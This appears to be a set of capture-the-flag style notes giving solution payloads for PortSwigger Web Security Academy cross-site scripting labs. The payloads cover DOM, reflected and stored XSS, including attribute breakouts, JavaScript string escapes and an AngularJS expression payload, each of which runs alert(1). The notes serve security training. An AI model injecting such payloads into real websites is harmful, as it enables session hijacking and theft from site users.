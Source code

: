 ## Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ``` " autofocus onfocusin='alert(1)' x="```


## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ``` https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ``` 123'; alert(1);//```


## Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ``` https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ``` {{constructor.constructor('alert(1)')()}}```


## Lab: Reflected DOM XSS

-> payload: ```123\"};alert(1)//``` (`"` being escaped but `\` not being escaped)


## Lab: Stored DOM XSS

-> payload: ```<> <img="1.jpg" onerror="alert(1)">``` (replace function only replace the first argument of string, other argument not reqpace )